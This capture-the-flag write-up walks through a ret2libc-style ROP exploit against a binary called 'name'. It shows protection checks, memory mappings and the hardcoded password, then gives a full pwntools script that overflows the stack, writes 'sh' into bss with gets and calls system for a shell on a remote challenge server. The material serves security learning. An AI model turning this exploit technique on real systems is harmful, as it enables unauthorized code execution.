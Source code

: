 # name

###### This challenge is about a classical ret2libc. However you don't have to leak libc addreses, because the
###### ```system()``` function is used, and we now the got address.
A look at the program protections confirms, that pie is disabled.
```
[*] '/pwd/vulncon/pwn/name/challenge/name'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
So we now ```system()```, but we still need the `/bin/sh` string. So we take a look at the program's memory
mappings:
```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /pwd/vulncon/pwn/name/challenge/name
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /pwd/vulncon/pwn/name/challenge/name
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /pwd/vulncon/pwn/name/challenge/name
0x00007f3306e38000 0x00007f330701f000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f330701f000 0x00007f330721f000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f330721f000 0x00007f3307223000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f3307223000 0x00007f3307225000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f3307225000 0x00007f3307229000 0x0000000000000000 rw- 
0x00007f3307229000 0x00007f3307250000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f3307444000 0x00007f3307446000 0x0000000000000000 rw- 
0x00007f3307450000 0x00007f3307451000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f3307451000 0x00007f3307452000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f3307452000 0x00007f3307453000 0x0000000000000000 rw- 
0x00007fffa7627000 0x00007fffa7648000 0x0000000000000000 rw- [stack]
0x00007fffa7761000 0x00007fffa7765000 0x0000000000000000 r-- [vvar]
0x00007fffa7765000 0x00007fffa7767000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
So we see that the region `0x601000 - 0x602000` is writeable. So we could store our string `/bin/sh` there.
But how? So in the program `gets()` is used, and it takes only one argument. And that argument is, where the
user input should be written to. But we can control this argument with a gadget and write wherever we have write
permissions. So we could just call `gets(0x601000)`, read your sh string, and then call `system(0x601000)` to get a shell. Sounds like a good plan! For this we need a ropchain like this: 
```passwd + offset + pop_rdi + bss + gets + pop_rdi + bss + system```.
- **passwd**: the password we need to enter, that the `main()` function returns. We can get it easily with `strings`. It's `w3lc0m3`. We have to add a NULL byte after the password, so that `strcmp()` stops comparing at the NULL byte.
- **offset**: the offset to fill the stack right before the saved rip.
- **bss**: this is the address, where we're going to write to.
- **gets**: when the arguments are prepared, we can call gets to read our input into `0x601000`.
- **system**: when the arguments are prepared, we can call system to execute `/bin/sh`.

###### if we send a ropchain like this to the server, the program waits for input. So if we send `sh`, system is
###### called, and we get `/bin/sh` executed. This is the full exploit:
####

```python
from pwn import *

#p = process("./name")
p = remote("34.121.19.183", 49158)

gets = 0x400600
bss = 0x601000
system = 0x4005d0
main = 0x400717
pop_rdi = 0x400833
ret = 0x4005b6

p.sendline("w3lc0m3\x00" + "A"*128 + p64(pop_rdi) + p64(bss) + p64(gets) + p64(pop_rdi) + p64(bss) + p64(system) + "\x00")
p.sendline("sh")
p.interactive()
```

If we execute it, we get a shell! Nice!
